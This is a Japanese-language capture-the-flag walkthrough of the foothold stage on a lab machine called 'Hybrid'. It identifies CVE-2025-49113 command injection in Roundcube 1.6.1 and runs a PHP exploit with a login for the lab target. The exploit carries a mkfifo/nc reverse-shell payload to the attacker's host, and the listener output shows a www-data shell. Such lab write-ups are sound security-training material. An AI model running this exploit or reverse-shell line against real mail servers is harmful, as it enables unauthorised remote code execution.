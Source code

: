 markasjunk vulnで検索すると
![](https://i.imgur.com/X1uNt28.png)
いくつか見つかる
- https://cyberthint.io/roundcube-markasjunk-command-injection-vulnerability/
# Foothold

## CVE-2025-49113
この記事によると、markasjunk プラグインが有効になっている場合の Roundcube バージョン 1.6.1 以前のバージョンに、RCEの脆弱性、**CVE-2025-49113**がある
該当しているかを見てみると、Roundcube バージョン 1.6.1であるので、この脆弱性があることがわかる!!!!!!!!!!

### PoC
引用 : https://cyberthint.io/roundcube-markasjunk-command-injection-vulnerability/
![[Pasted image 20251009172121.png]]
メールアドレスを変更することでRCEできるらしい
リバースシェルを設定したい
メールアドレスの& &の間のコマンドを実行してくれるぽい

他のPoCも見つけたので、これでリバースシェルを立てる
```sh
┌──(kali㉿kali)-[~/…/Vulnhub/Hybrid/10.10.233.118/CVE-2025-49113-exploit]
└─$ php CVE-2025-49113.php http://mail01.hybrid.vl/ admin@hybrid.vl  Duckling21 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.7.156 4444 >/tmp/f"
[+] Starting exploit (CVE-2025-49113)...
[*] Checking Roundcube version...
[*] Detected Roundcube version: 10601
[+] Target is vulnerable!
[+] Login successful!
[*] Exploiting...

```
ちなみに、全然リバースシェルがたたなかったので嬉しい

ncで待ち受けていた側
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.7.156] from (UNKNOWN) [10.10.233.118] 35588
bash: cannot set terminal process group (641): Inappropriate ioctl for device
bash: no job control in this shell
www-data@mail01:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@mail01:/$ 
```
www-dataでログインできた
# Lateral Movement
